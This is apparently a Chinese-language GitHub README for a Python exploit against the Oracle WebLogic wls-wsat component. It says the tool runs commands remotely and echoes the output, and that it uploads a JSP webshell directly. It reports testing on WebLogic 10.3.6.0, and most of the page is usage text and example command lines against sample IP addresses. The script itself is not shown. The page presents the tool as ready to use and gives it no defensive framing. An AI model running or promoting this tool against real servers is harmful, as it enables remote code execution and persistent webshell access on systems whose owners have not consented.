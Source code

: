 #### 简易说明


+ 命令执行并回显
+ 直接上传shell
+ linux下weblogic 10.3.6.0测试OK

#### 使用方法

+ python weblogic_wls_wsat_exp.py -t 172.16.80.131:7001

```bash
usage: weblogic_wls_wsat_exp.py [-h] -t TARGET [-c CMD] [-o OUTPUT] [-s SHELL]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        weblogic ip and port(eg -> 172.16.80.131:7001)
  -c CMD, --cmd CMD     command to execute,default is "id"
  -o OUTPUT, --output OUTPUT
                        output file name,default is output.txt
  -s SHELL, --shell SHELL
                        local jsp file name to upload,and set -o xxx.jsp
```

Example：

~~~
python2 weblogic_wls_wsat_exp_win.py -t 192.168.174.144:7001 -c "whoami"
~~~

![execute_command](./execute_command.png)

